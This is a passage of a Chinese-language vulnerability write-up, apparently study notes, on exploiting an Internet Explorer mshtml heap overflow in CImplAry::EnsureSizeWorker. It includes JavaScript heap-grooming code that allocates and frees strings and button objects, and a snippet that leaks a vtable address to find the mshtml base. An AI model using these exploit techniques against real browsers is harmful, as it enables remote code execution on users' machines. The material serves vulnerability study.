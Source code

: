 感觉对这个漏洞的分析还算是说的比较清楚了

## 3.漏洞利用

这个漏洞是个堆溢出漏洞,从exploit.html的利用手法上看,通用一点的手法都是首先通过内存布局占坑让CImplAry::EnsureSizeWorker分配的内存能落在你预先分配好的内存上,

这是因为在分配内存时会优先使用已经释放掉的内存（如果大小相同或者小于)，这样我们就可以先申请出来一片内存，且该内存和漏洞触发时要申请的内存大小相同,然后将我们申请到的内存进行释放, 最后漏洞触发的时候分配的内存就正好就占用了我们刚刚释放过的内存,我们就能控制利用代码执行



```javascript
for (var i = 0; i < 500; i += 2) {

			// E
			rra[i] = dap.substring(0, (0x100 - 6) / 2);

			// S, bstr = A
			arr[i] = padding.substring(0, (0x100 - 6) / 2);

			// A, bstr = B
			arr[i + 1] = filler.substring(0, (0x100 - 6) / 2);

			// B
			var obj = document.createElement("button");
			div_container.appendChild(obj);

		}


		Math.atan(0);

		for (var i = 200; i < 500; i += 2) {
			rra[i] = null;
			CollectGarbage();
		}

```

从上面的代码中我们可以看到内存布局是

```asm
E A B Cbutton
```

然后释放掉E所在的内存,  让CImplAry::EnsureSizeWorker分配的内存刚好落在E的内存上,然后通过泄漏CbuttonLayout的虚表地址来得到mshtml的基址,这个地址和mshtml的基址偏移是个固定常数,从<<漏洞战争>>来看这个固定常数在不同的版本可能不一样,比如我的环境上和书上的偏移就是不同的;



通过下面的代码来泄漏,可以对照着漏洞战争来看

```javascript
var obj_col = document.getElementById("132");
obj_col.span = 19;
```
